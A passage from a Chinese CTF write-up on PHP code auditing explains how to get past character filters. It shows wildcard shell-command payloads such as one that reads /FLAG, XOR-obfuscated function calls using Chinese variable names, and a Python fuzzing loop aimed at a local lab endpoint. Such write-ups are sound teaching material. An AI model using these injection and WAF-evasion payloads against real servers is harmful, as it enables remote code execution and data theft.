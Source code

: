 后来在安全客看到一种新的思路，也很不错，具体参考：[CTF题目思考--极限利用](https://www.anquanke.com/post/id/154284) 。这篇文章主要是 **利用通配符调用Linux系统命令** 来查看 **flag** ，关于通配符调用命令的文章，大家可以参考： [web应用防火墙逃逸技术（一）](https://www.anquanke.com/post/id/145518) 。

我们来分析安全客这篇文章中的payload：

```
$_=`/???/??? /????`;?><?=$_?>
实际上等价于：
$_=`/bin/cat /FLAG`;?><?=$_?>
```

这里我想说一下 **\<?=$\_?>** 这个代码的意思。实际上这串代码等价于 **\<? echo $\_?>** 。实际上，当 **php.ini** 中的 **short\_open\_tag** 开启的时候， **\<? ?>** 短标签就相当于 **\<?php ?>** ， **\<?=$\_?>** 也等价于 **\<? echo $\_?>** ，这也就解决了输出结果的问题。下面我们再来看第二道题目。

**第2道题目如下** ：

![27](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/27.png?lastModify=1736413962)

这道题目实际上和上面那道题目差不多，只是过滤了一个下划线 **\_** 而已，我们可以用中文来做变量名：

```
$哼="{{{{{{{"^"%1c%1e%0f%3d%17%1a%1c";$哼();
```

![28](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/28.png?lastModify=1736413962)

当然，我们也可以 **fuzz** 可用的 **ASCII** 做变量名，**fuzz** 代码如下：

```
import requests
for i in range(0,256):
    asc = "%%%02x" % i
    url = 'http://localhost/demo/index2.php?code=$%s="{{{{{{{"^"%%1c%%1e%%0f%%3d%%17%%1a%%1c";$%s();' % (asc,asc)
    r = requests.get(url)
    if 'HRCTF' in r.text:
        print("%s 可用" %asc)
```

![29](file:///E:/Users/Administrator.DESKTOP-L9N4RF9/Desktop/myPHP/php%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/%E7%BA%A2%E6%97%A5/PHP-Audit-Labs/PHP-Audit-Labs%E9%A2%98%E8%A7%A3/Day5-8/files/29.png?lastModify=1736413962)

可以看到此时 **payload** 长度为 **28** 。当然还有其他 **payload** ，例如下面这样的，原理都差不多，大家自行理解。

```
$呵="`{{{"^"?<>/";${$呵}[呵](${$呵}[呵]);&呵=getFlag
```

